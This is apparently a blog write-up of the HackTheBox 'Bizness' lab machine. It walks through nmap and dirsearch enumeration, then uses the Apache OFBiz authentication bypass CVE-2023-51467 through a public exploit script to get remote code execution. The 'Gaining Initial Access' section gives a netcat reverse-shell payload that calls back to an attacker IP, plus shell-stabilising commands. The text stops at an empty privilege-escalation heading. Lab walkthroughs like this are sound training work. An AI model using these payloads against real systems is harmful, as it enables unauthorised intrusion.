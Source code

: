 ```yaml
---
title: Bizness
published: 2024-08-05
description: Writeup for an easy labeled linux based HTB machine named Bizness.
# image: ./devvortex/devvortex_pwned.jpg
tags: [HackTheBox, Linux, Machines]
category: Writeups
draft: true
---
```



# <center> BIZNESS </center>


Hello everyone. Let's solve an easy labeled linux based HTB machine named Bizness.

## Initial step (conifguring your local system)

- Download your open vpn configuration file and connect to htb vpn.
    - ```bash
        sudo openvpn <configuratio_file_name>
      ```
- Join the machine to get an IP. (in my case it is 10.10.11.252).
- tasks given:
    - submit user flag (32 hex characters).
    - submit root flag (32 hex characters).

Now we are good to go. we can access the website through our browser. Now let's dive into our actual hacking stuffs 😉. (Disclaimer: By "hacking", I meant <strong><i>ETHICAL</strong> Hacking</i>)

<hr>

## Scanning and Enumeration


- performing agressive nmap scan on the given ip. (-A stands for agressive in below command)
    - ```bash
        nmap -A -T4 10.10.11.252

        Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-30 22:07 IST
        Warning: 10.10.11.252 giving up on port because retransmission cap hit (6).
        Nmap scan report for bizness.htb (10.10.11.252)
        Host is up (0.41s latency).
        Not shown: 954 closed tcp ports (conn-refused), 43 filtered tcp ports (no-response)
        PORT    STATE SERVICE  VERSION
        22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
        | ssh-hostkey: 
        |   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
        |   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
        |_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
        80/tcp  open  http     nginx 1.18.0
        |_http-title: Did not follow redirect to https://bizness.htb/
        443/tcp open  ssl/http nginx 1.18.0
        | tls-alpn: 
        |_  http/1.1
        | ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
        | Not valid before: 2023-12-14T20:03:40
        |_Not valid after:  2328-11-10T20:03:40
        |_http-title: 400 The plain HTTP request was sent to HTTPS port
        | tls-nextprotoneg: 
        |_  http/1.1
        |_http-server-header: nginx/1.18.0
        |_ssl-date: TLS randomness does not represent time
        Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 112.27 seconds.
        ```

    - from nmap result we can observe SSH service and Ngnix on ports 80 and 443.
    - Also, a web app is running on port 80, but it is not accessible through ip address, so let's add the ip and it's domain name in out local `/etc/hosts` file and now it can be accessed using the ip (10.10.11.252 in my case) or its domain name `bizness.htb`.
    - ```bash
        sudo nano /etc/hosts
        ```
    - ![host file](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/editing_host_file.jpg)


- The website is static. After fuzzing it's input fields we can know that there is no case of parameter injection in the website. So now let's do some enumeration and search some hidden directories.

- performing dirsearch.
    - ```bash
        dirsearch -u https://bizness.htb
        ```
    - ![dirsearch result](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/dirsearch_result.jpg)

## Gaining Initial Access

- the most interesting result I foud was /control/login. (no doubt it's an eye catcher for a hacker 😉). Following the path bizness.htb/control/login took me to an apache ofbiz authentication page. Then I tried fuzzing and bruteforcing some of the passwords for admin user, but it was of no use 😮‍💨.
![ofbiz authentication page](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/ofbiz_authentication_page.jpg)

Then I remembered a statement "Google: A hacker's bestfriend", so immediately I googled some ways to bypass the ofbiz authentication. There I came to know about Apache OFBiz Authentication Bypass Vulnerability (CVE-2023-51467).
- [check this website](https://threatprotect.qualys.com/2023/12/27/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-51467/) to know more about the vulnerability details and exploit analysis.

Luckily I found an exploit on github that triggers <strong>Remote Code Execution (RCE) </strong>. So it's obvious that my next move would be to get a reverse shell using RCE. So I cloned [this Git repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git) to my local system.
- ![clonning exploit repo](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/clone_exploit_repo.jpg)

- <strong>Working on payload</strong>

    - my attacking (tun0) ip: `10.10.14.151` (can be found using ifconfig command)
    - command for netcat reverse shell:
    ```bash
        nc -c bash <ip> <port>
     ```
    - command to execute exploit on remote server:
    ```bash
        python3 exploit.py --url 'URL' --cmd 'CMD'
    ```
    - Final payload:
    ```bash
        python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.14.151 1234'
    ```
So finally I started my netcat listener on port 1234 with comman d `nc -lnvp 1234` and then executed the final payload in a next tab.
And voilà, We got a reverse shell.....

- ![getting reverse shell](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/getting_rev_shell.jpg)

Let's first stabilize the shell using the following commandd:
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

Navigating through the file system, we can find the user flag in /home/ofbiz/user.txt file 🫠.

But this is not the  end 🥴. Remember the task, we need to submit the root flag as well. So, lets do some vertical previlege escalation.

## Previlege Escalation

